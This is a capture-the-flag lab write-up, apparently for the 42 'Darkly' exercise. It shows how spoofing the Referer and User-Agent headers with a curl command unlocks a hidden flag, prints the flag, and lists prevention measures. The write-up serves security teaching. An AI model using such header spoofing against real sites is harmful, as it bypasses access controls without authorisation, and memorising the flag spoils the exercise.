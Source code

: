 # HTTP Header Spoofing Vulnerability

## Overview
Access to secret content is possible by faking HTTP headers. The site checks for specific `Referer` and `User-Agent` values to reveal the flag.

---

## How It Works

On the copyright page:
```
http://<IP_ADDRESS>/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
```
HTML comments in the source say:
- Use Referer: `https://www.nsa.gov/`
- Use User-Agent: `ft_bornToSec`

**Exploit with curl:**
```bash
curl "http://<IP_ADDRESS>/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" \
  --user-agent "ft_bornToSec" \
  --referer "https://www.nsa.gov/"
```
Or use a browser extension (like ModHeader) to set these headers and refresh the page.

---

## Flag

`f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## Prevention

1. **Don't rely on headers for security:** Use proper authentication.
2. **Enforce server-side checks:** Control access with sessions or tokens.
3. **WAF:** Block suspicious header manipulation.
4. **Security headers:** Use CSP and other security headers.

---